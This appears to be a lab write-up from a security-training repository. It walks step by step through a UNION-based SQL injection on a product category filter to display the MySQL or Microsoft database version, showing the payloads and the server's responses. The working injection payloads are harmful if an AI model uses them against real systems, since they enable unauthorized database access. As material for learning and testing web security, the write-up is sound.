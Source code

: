 # SQL injection, querying the database type and version on MySQL and Microsoft

### Goal:
`Display the database version`
### Info: The injection point is the product category filter
`target.com/filter?category=<input>`
### Info: The target is using a MySQL or Microsoft database
<br><br>

**<ins>Step 1: Test injection point</ins>**

category='

`500: server error`<br><br>

category='#

`200`
<br><br>

**<ins>Step 2: Enumerate data with UNION attack</ins>**

We know that the database is either MySQL or Microsoft, which share similar syntax. We need to use this syntax for a successful attack.<br><br>

category='UNION SELECT NULL#

`500 server error`<br><br>

category='UNION SELECT NULL,NULL#

`200`

This means that the query outputs two values.
<br><br>

category='UNION SELECT 'a','b'#

`200`

This means that both values are strings. Knowing this, we can use either to output the desired data.
<br><br>

**<ins>Step 3: Exploit the vulnerability</ins>**

category='UNION SELECT @@version,NULL#

`Success!`

In a normal request, the database would output a product's name and description. This query prompts it to return the database version instead of a name, giving us valuable information for further probing.